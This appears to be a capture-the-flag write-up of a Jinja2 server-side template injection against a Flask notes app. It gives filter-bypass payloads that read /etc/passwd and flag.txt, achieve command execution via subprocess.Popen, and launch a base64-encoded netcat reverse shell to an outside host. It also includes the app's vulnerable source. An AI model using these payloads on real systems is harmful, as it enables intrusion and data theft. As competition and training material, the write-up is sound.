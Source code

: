 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![](./1.png)
<br>
```
http://challenge2.lagncrash.com:17654/{{config}}
```
![](./4.png)
<br>
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![](./2.png)
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
<br>
![](./3.png)
<br>

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)<br>
Reference: https://hackmd.io/@Chivato/HyWsJ31dI(Changing the techniques to do stuff)
<br>
<br>
<br>
# Review - Getting a shell :D
From https://fireshellsecurity.team/asisctf-fort-knox/:
https://abcdsh.blogspot.com/2019/04/writeup-asis-2019-quals-fort-knox.html
This uses ```["61"["decode"]("hex")] = 'a'``` to bypass

RCE from payloadsallthethings:
```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

Dumping subclass to get subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()}}

=

{{''.__class__.mro()[2].__subclass__()}}
```
subprocess.Popen:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]}}

=

{{''.__class__.mro()[2].__subclass__()[230]}}
```
cat flag.txt again:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('cat flag.txt',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

=

{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```
Test for internet connection:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('curl portquiz.net:17654',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
curl portquiz.net:17654
```
Use base64 to bypass filter and get reverse shell:
```
{{''['5F5F636C6173735F5F'['decode']('hex')]['mro']()[2]['5F5F737562636C61737365735F5F'['decode']('hex')]()[230]('echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh',shell=True,stdout=-1)['636F6D6D756E6963617465'['decode']('hex')]()[0]['7374726970'['decode']('hex')]()}}

Command:
echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgeC54LngueCA4MCA+L3RtcC9m | base64 -d | sh

Revshell:
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 80 >/tmp/f)
```
![](./5.png)
Source code(Filters):
```
root@f6f551d6a9a4:/Photos-Docker-Flask/app# cat __init__.py
from flask import *
from flask import Flask, request, render_template, flash, url_for
from flask_sqlalchemy import SQLAlchemy
from flask import app
from flask_login import LoginManager
from flask_migrate import Migrate
from werkzeug.exceptions import HTTPException
from config import app_config
import re
from htmlentitydefs import name2codepoint
from flask import escape
from flask import flash

def htmlentitydecode(s):
        return re.sub('&(%s);' % '|'.join(name2codepoint),
                        lambda m: unichr(name2codepoint[m.group(1)]), s)

db = SQLAlchemy()
login_manager = LoginManager()

def create_app(config_name):
        app = Flask(__name__, instance_relative_config=True)
        from app import models

        app.config.from_pyfile('config.py')
        db.init_app(app)

        @app.route('/')
        def home():
                return render_template('home.html')

        @app.errorhandler(404)
        def error404(e):
                link = htmlentitydecode(request.url).replace('_','')
                template = '''
                <div>
                <h1>Oops! This page does not exist</h1>
                <h3>%s</h3>
                GO BACK TO:
                <ul class="menu">
                  <li><a href="{{ url_for('create_notes') }}">Create Notes</a></li>
                </ul>
                </div>
                ''' % (link)

                return render_template_string(template), 404

        migrate = Migrate(app,db)

        @app.route("/about")
        def about():
                return render_template("about.html")

        @app.route("/notes", methods=["GET", "POST"])
        def notes():
                notes = ''
                try:
                        ntitle = ((((((request.args['ntitle']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        ndetail = ((((((request.args['ndetail']).replace('{', '')).replace('}', '')).replace('_', '')).replace(',', '')).replace('|', '')).replace('[', '')
                        notes = '''
                        <div>
                        <h1>Title: %s</h1>
                        <h3>Details: %s</h3>
                        </div>
                        ''' % (escape(ntitle), escape(ndetail))
                except:
                        pass
                return render_template_string(notes)



        @app.route("/create-notes", methods=["GET", "POST"])
        def create_notes():
                if request.method == "GET":
                        return render_template('create_notes.html')
                else:
                        try:
                                title = request.form['title']
                                detail = request.form['detail']
                        except:
                                title =  ''
                                detail = ''
                        return redirect(url_for('notes', ntitle=title, ndetail=detail))

        return app
```